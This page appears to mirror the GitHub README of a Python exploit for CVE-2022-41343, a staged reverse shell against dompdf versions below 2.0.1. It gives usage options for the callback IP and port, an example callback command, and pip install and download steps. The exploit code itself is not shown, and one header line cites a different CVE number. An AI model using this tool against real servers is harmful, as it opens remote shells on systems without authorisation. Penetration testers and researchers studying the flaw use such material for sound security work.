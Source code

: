 # CVE-2022-41343

🐍 Python Exploit for CVE-2022-23935

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/BKreisel](https://github.com/BKreisel) |
| Url      | [https://github.com/BKreisel/CVE-2022-41343](https://github.com/BKreisel/CVE-2022-41343)                                               |
| Stars    | 1                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-41343* exploit* python

</details>

## Readme

# CVE-2022-41343
🐍 Python Exploit for CVE-2022-41343

Staged Reverse Shell for dompdf < 2.0.1

Based on: [Positive Sec's write-up](https://positive.security/blog/dompdf-rce) and [PoC](https://github.com/positive-security/dompdf-rce)

## Example
```
cve-2022-41343 10.10.16.3 44444
```

## Usage
```bash
usage: cve-2022-41343 [-h] [-l SERVER_PORT] [-s SHELL] [-n FONT_NAME] ip port

positional arguments:
  ip                    Shell Callback IP Address/Host
  port                  Shell Callback Port

options:
  -h, --help            show this help message and exit
  -l SERVER_PORT, --listen SERVER_PORT
                        Server Listening Port (default: 55555)
  -s SHELL, --shell SHELL
                        Remote Shell (default: bash)
  -n FONT_NAME, --font-name FONT_NAME
                        Exploit Font Name (default: comicsploitz)
```
## PyPi Installation
```bash
python3 -m pip install cve-2022-41343
```

## Manual Installation
```bash
python3 -m pip install cve-2022-41343-1.0.0-py3-none-any.whl
```
[Download Latest Release](https://github.com/BKreisel/CVE-2022-41343/releases/download/1.0.0/cve_2022_41343-1.0.0-py3-none-any.whl)

## Demo
[![demo](https://asciinema.org/a/560597.svg)](https://asciinema.org/a/560597?autoplay=1)



## Get the content

```
git clone https://github.com/BKreisel/CVE-2022-41343
cd CVE-2022-41343
```

{% embed url="https://github.com/BKreisel/CVE-2022-41343" %}

<figure><img src="https://avatars.githubusercontent.com/u/1513073?v=4" alt=""><figcaption><p>BKreisel</p></figcaption></figure>
